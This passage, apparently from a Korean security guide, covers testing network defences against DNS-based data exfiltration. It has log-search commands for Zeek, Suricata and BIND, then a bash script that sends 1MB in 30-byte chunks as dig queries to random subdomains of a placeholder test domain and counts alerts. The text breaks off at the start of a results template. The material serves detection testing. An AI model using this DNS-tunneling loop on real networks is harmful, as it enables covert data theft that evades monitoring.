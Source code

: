 3. **탐지 시스템 검증**:
   * **기존 보안 솔루션 테스트**:
     ```bash
     # 로그 분석 명령어 (테스트 후 탐지 여부 확인)
     # Zeek/Bro 로그 검사
     grep -i "yourtestdomain.com" /var/log/bro/current/dns.log | wc -l
     
     # Suricata 알림 확인
     grep -i "DNS" /var/log/suricata/eve.json | grep "yourtestdomain.com" | jq .
     
     # BIND DNS 서버 로그 검사
     grep -i "yourtestdomain.com" /var/log/named/queries.log | \
     awk '{print $1, $5}' | sort | uniq -c | sort -nr
     ```
   
   * **탐지 성능 측정**:
     ```bash
     # 데이터 유출량과 탐지율 계산 스크립트
     #!/bin/bash
     START_TIME=$(date +%s)
     TOTAL_BYTES=1048576  # 1MB
     CHUNK_SIZE=30
     CHUNKS=$((TOTAL_BYTES / CHUNK_SIZE))
     
     # 유출 시작
     for i in $(seq 1 $CHUNKS); do
       dig $i.$(openssl rand -hex 15).exfil.yourtestdomain.com &> /dev/null
       if [ $((i % 100)) -eq 0 ]; then
         # 매 100회 요청마다 탐지 시스템 확인
         ALERTS=$(grep -c "yourtestdomain.com" /var/log/security_alerts.log)
         echo "전송된 데이터: $((i * CHUNK_SIZE)) bytes, 탐지된 알림: $ALERTS"
       fi
       sleep 0.05
     done
     
     END_TIME=$(date +%s)
     DURATION=$((END_TIME - START_TIME))
     echo "총 소요시간: ${DURATION}초, 평균 전송 속도: $(($TOTAL_BYTES / $DURATION)) bytes/sec"
     echo "총 유출 시도: $CHUNKS 건, 탐지된 총 알림: $(grep -c "yourtestdomain.com" /var/log/security_alerts.log)"
     ```
   
   * **탐지 임계값 조정을 위한 권장사항 도출**:
     ```
     # 분석 결과 템플릿 예시
     